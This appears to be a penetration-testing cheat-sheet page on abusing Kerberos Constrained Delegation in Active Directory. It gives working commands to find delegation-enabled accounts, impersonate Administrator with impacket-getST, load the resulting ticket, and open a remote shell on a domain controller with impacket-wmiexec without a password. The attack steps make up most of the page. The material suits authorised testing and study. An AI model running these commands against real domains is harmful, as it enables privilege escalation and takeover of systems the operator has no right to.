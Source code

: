 ```yaml
---
title: Constrained Delegation Attack
description: If a compromised account has the Kerberos Constrained Delegation right, the account may impersonate another user to request Kerberos service ticket and use it for such as signin services.
tags:
    - Active Directory
    - Kerberos
    - Windows
refs:
date: 2024-02-18
draft: false
---
```


## Investigation

### Check if Kerberos Constrained Delegation Enabled for User

Reference: [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation#prerequisites](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation#prerequisites)

```sh
Get-NetUser -TrustedToAuth
```

<br />

## Exploit

### 1. Request Service Ticket for Another User

The target SPN needs to be allowed for delegation.

```bash
# -k: Use Kerberos Auth
impacket-getST -k -impersonate Administrator -spn cifs/dc.example.local example.local/UserName
```

### 2. Use the Service Ticket

After getting the service ticket, we can use it for further pentesting.  
We need to add the environment variable as below:

```bash
export KRB5CCNAME=`pwd`/Administrator.ccache

# Check by listing tickets.
# If the klist command not found, install it by `apt install krb5-user`
klist
```

- Login to Services with Kerberos Auth
    
    ```bash
    # -k: Use Kerberos Auth
    # -no-pass: No password
    impacket-wmiexec example.local/Administrator@example.local -k -no-pass
    ```